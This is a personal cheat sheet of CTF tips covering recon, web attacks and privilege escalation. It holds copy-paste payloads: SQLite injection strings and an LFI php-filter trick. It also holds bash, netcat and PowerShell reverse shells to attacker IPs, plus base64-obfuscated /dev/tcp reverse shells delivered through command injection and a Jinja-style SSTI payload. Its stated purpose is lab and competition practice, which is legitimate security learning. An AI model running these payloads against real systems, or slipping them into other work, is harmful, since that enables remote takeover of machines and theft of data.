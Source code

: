 *CTF Tips*
- 👨‍💻By: Nathan Hailu
- 🗒Description: A CTF tips collected while playing CTF
- 📅Date: Sun 10/25/2022
----

# Methodologies
## Machine CTF
- Nmap scan 
	- one -p-
	- one normal -vvv
- directory scan
	- dirb
	- dirsearch
- subdomain scan
	- ffuf - seclists
## Web CTF
### A) File Inclusion / path traversal
    - IF the site have file opening method like => ...?home=about
      - TRY: home=`php://filter/convert.base64-encode/resource=index`
### B) IDOR


### C) SQL-injection
- If the database is **sqlite**
	- a' || (select sqlite_version()));--
	- a' || (select sql from sqlite_master));--
	- a' || (select password from xde43_users where role="admin"));--
- Try to inject on the **id** parameter
- When you get errors like "HY000 1 unrecognized token: "'" "
	- Try to use sqlmap  =>  sqlmap -u link --dump-all
### D) XSS
- Use <img\> tags rather than <script\> U can upload svg file (image) then do xss with svg files
### E) Broken Access Control
- **changing** role of 'user' to 'admin' will give u the flag!
### F) Obfuscation
- Some websites give you JS code for hint and they will **Obfuscate** it so to decode that use
      - This site:  https://lelinhtinh.github.io/de4js/ 
        - ON THIS the obfuscation looks js code but it is human unreadable form.
    - If you see []+[][[+]}]... kind of obfuscate it is **JSFUCK**.
    - Another Site: http://www.jsnice.org/ 

### G) File Upload
- If the Uploaded file path *is known*
	- http://example.com/data/shell.pdf
	- **it wont run the php code, so try**
	- => http://example.com/index.php?data/shell.pdf

### H) Host Headers
    - If the hint have language staff
      - change the accept-language to the hints.

### I) PHP secure code
- 
    
## Git CTF
- get the .git link
- download it with gitdumper.sh
	  `gitdumper.sh http://167.99.135.253/.git clone-folder`
- extract the main file with extractor.sh
	  `extractor.sh clone-folder pre`
- Go to the pre folder and check if there is flag or username,password
- to download all files of git recursively
	  `wget -r http://web.com/.git`
- if there is any commit
	  `git log`   =>   and look for something jucie throught the commit message
 - if there any copy the commit id and
	  `git show <id>`
- some CTF's will give u the source code and the encrypted flag on some place, and the decrypting function will be on the source code.
  - so edit the code(like replaceing the encrypt function to decrypt) and run it
		  `php index.php`
```bash
# Commands
git log
git show <>
git restore <>   ->  will restore deleted files
git status
```

# REMEMBERS
- Always when you get programs check for their version and find if there is any exploit for them
- For directory search
	- dirb
	- dirsearch
- On command Injection
	- for 1 liner you can use \${IFS} to replace the whitespace `kanderson;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTQvOTk5OSAwPiYxCg="|base64${IFS}-d|bash;
- extracting jar file
`jar tvf jarfile.jar
- On PGP key naming, the uid is in text with out <, > signs but it works fine with `{{7*7}}` huh SSTI😁
- if you see flash think about SSTI
	-`{{request.application.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTQvNDAwMCAwPiYxCg==" | base64 -d | bash').read()}}`
- Latex Exploit
	- https://exploit-notes.hdks.org/exploit/web/security-risk/latex-injection/
- If you are on Apache server sensetive files can be stored in the following paths, so if u got reading permission/method read them
	- /var/www/dev/.htaccess
	- /var/www/html/.htaccess
	- /var/www/stats/.htaccess
	- .htaccess can be `.htpasswd`
## Priv - Esc
- Check files in /tmp , /opt
- linpeas
	- check env
	- os releases
	- suid bits
	- sudo 
- pspy64

## Reverse Shells
- bash
	- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`
- powershell
	- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

## Upgrading TTY 
- Using #pty
	- On VIctim
		- `python -c 'import pty; pty.spawn("/bin/bash")` 
		- then make it to background process (ctrl + Z)
	- On Attacker
		- You can use the following![[Pasted image 20231019095240.png]]
- We can get a problem on the reverse shell and out terminal size for this we can fix with
	- Checking our terminal
		- `echo $TERM` -> #tmux-256color
		- `stty size` -> <row> <col>
	- On the reverse shell
		- `export TERM=<YOURVALUE>`
		- `stty rows <row> columns <col>`




================= { START } ==============================
